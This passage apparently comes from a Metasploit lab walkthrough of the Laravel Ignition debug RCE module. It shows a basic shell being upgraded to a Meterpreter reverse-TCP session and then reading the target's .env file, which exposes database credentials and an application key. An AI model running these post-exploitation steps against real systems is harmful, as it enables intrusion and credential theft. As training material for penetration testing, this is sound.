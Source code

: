 Use the `sessions -u -1` command to upgrade the basic shell to a Meterpreter shell (ensure to `background` the basic shell before upgrading).

```text
msf6 exploit(multi/php/ignition_laravel_debug_rce) > sessions -u -1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [-1]                                          

[*] Upgrading session ID: 1                                                                                         
[*] Starting exploit/multi/handler                                                                                  
[*] Started reverse TCP handler on 10.2.4.35:4433                                                                   
[*] Sending stage (1017704 bytes) to 10.10.41.251                                                                   
[*] Command stager progress: 100.00% (773/773 bytes)                                                                
msf6 exploit(multi/php/ignition_laravel_debug_rce) > [*] Meterpreter session 2 opened (10.2.4.35:4433 -> 10.10.41.251:39880) at 2022-12-09 11:56:52 -0700

msf6 exploit(multi/php/ignition_laravel_debug_rce) > sessions                                                       

Active sessions                                                                                                     
===============                                                                                                     

  Id  Name  Type                   Information               Connection                                             
  --  ----  ----                   -----------               ----------                                             
  1         shell cmd/unix                                   10.2.4.35:4444 -> 10.10.41.251:33158 (10.10.41.251)    
  2         meterpreter x86/linux  www-data @ 172.28.101.50  10.2.4.35:4433 -> 10.10.41.251:39880 (172.28.101.50)
```

After interacting with the Meterpreter session with `sessions -i -1` and exploring the target machine, we can see there are database credentials available (`postgres:postgres`):

```text
meterpreter > cat /var/www/.env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:NEMESCXelEv2iYzbgq3N30b9IAnXzQmR7LnSzt70rso=
APP_DEBUG=true
APP_URL=http://localhost

LOG_CHANNEL=stack
LOG_LEVEL=debug

DB_CONNECTION=pgsql
DB_HOST=webservice_database
DB_PORT=5432
DB_DATABASE=postgres
DB_USERNAME=postgres
DB_PASSWORD=postgres

BROADCAST_DRIVER=log
CACHE_DRIVER=file
QUEUE_CONNECTION=sync
SESSION_DRIVER=file
SESSION_LIFETIME=120
```